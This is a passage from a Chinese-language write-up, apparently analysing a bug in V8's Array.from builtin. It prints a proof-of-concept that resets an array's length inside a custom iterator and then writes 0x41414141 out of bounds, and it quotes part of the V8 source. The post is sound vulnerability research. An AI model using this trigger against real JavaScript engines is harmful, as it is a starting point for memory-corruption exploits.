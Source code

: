 换句话来说，我们CSA代码里，改的也是传入的数组本身，感慨JS还是要深入学习，不然这种特性我是肯定想不到的

这也解释了为什么我们传入的第一个参数是`function() { return array }`这样的写法而不是直接传入一个数组变量

第二个参数涉及到了迭代的问题，大概的语法可以看出来，主要是实现`next()`函数，这里的逻辑是循环`max`次，把`counter++`作为返回值，注意看两个`return`，`done`为`true`表示迭代完成，这里由`this.counter == this.max`判断，注意我们现在是在重写迭代函数，所以可以随意写迭代逻辑和迭代次数
```
{[Symbol.iterator] : _ => (
    {
        counter : 0,
        max : 10,
        next() {
            let result = this.counter++;
            if (this.counter == this.max) {
                return {done: true};
            } else {
                return {value: result, done: false};
            }
        }
    }
) }
```

再来看Poc，我们先创建了一个数组`oobArray`，之后的写法我们上面解释过，迭代次数为`1024 * 1024 * 8`，唯一不同的是我们在迭代结束后，改掉了数组的长度
```
let oobArray = [];
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ => (
    {
        counter : 0,
        max : 1024 * 1024 * 8,
        next() {
            let result = this.counter++;
            if (this.counter == this.max) {
                oobArray.length = 0;
                return {done: true};
            } else {
                return {value: result, done: false};
            }
        }
    }
) });
oobArray[oobArray.length - 1] = 0x41414141;
```

我们来思考下，在迭代里把数组的长度改为0或者说进行修改，会发生什么

这需要开始看源码

对应的源码就是我们刚刚看的那一段，JS里一部分数组操作写进了`builtins`，可以通过命名观察到，或者函数开头命名也行

这里贴出了整个函数的代码，前面一部分我们已经分析过
```
// ES #sec-array.from
TF_BUILTIN(ArrayFrom, ArrayPopulatorAssembler) {
  TNode<Context> context = CAST(Parameter(BuiltinDescriptor::kContext));
  TNode<Int32T> argc =
      UncheckedCast<Int32T>(Parameter(BuiltinDescriptor::kArgumentsCount));

  CodeStubArguments args(this, ChangeInt32ToIntPtr(argc));

  TNode<Object> map_function = args.GetOptionalArgumentValue(1);

  // If map_function is not undefined, then ensure it's callable else throw.
  {
    Label no_error(this), error(this);
    GotoIf(IsUndefined(map_function), &no_error);
    GotoIf(TaggedIsSmi(map_function), &error);
    Branch(IsCallable(map_function), &no_error, &error);
```